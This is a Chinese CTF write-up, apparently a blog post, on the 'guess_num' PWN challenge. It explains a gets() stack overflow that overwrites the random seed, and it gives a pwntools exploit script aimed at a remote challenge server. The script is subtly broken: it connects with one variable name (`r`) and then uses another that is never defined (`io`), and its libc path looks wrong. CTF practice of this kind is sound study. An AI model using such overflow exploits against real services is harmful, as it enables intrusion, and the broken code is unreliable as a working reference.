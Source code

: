 ```yaml
---
title: (wp)攻防世界PWN——guess_num
date: 2020-04-02 21:34:48
id: 20200402213448
tags: 
	- CTF
	- PWN
categories: 网络安全
---
```


好久没有做PWN题了，今天开始做一下，把之前的东西捡起来，同时对之前有些知识点也有了新的认识，新的理解。

# 分析

首先将附件下载下来，同时通过nc连接一下，了解一下大致的流程。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402220645.png)

可以看到，先让我们输入用户名，然后输入猜的的数字。

然后常规操作，通过`file`和`checksec`工具判断文件类型和开启了那些防护措施。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402220856.png)

可以知道这是一个64位的linux程序，并且开启了部分只读，栈溢出保护，不可执行和地址随机化。

接着我们通过IDA加载，反汇编一下。

IDA加载程序后，`ctrl+F5`查看一下伪代码。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402221626.png)

我们点击进入`sub_C3E()`，发现它会调用系统函数，打印flag，因此我们要保证程序能执行到这一步。

因此，在`v4`和`v6`比较时我们要保证这两个值相同，其中`v4`是我们的输入值，`v6`是随机数。我们知道这里的随机数是通过种子`seed`来形成的，如果`seed`一定，那么生成的随机数也是一定的。

双击`seed[0]`，可以发现`seed`是在栈帧中的，上面还有`var_30`。

查看汇编代码。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402222715.png)

在代码中可以找到如下信息：

```assembly
var_30 = byte ptr -30h
seed   = dword ptr -10h

lea     rax, [rbp+var_30]
mov     rdi, rax
mov     eax, 0
call    _gets
mov     rax, qword ptr [rbp+seed]
mov     edi, eax        ; seed
call    _srand
```

我们输入的name，存在栈帧中，占20h，下面高地址位紧跟着seed的值。因此我们可以溢出覆盖掉seed，将种子设置为已知值，从而控制生成的随机数。

写出exp：

```python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('/bin/x86_64-linux-gnu/libc.so.6')
libc.srand(1)
payload = 'A' * 0x20 + p64(1).decode()
r = remote('111.198.29.45', 57255)
r.recvuntil('name:')
r.sendline(payload)
for i in range(10):
    num = str(libc.rand() % 6 + 1)
    io.recvuntil('number:')
    io.sendline(num)

io.interactive()

```

其中so文件的路径是通过`ldd`工具找到的。

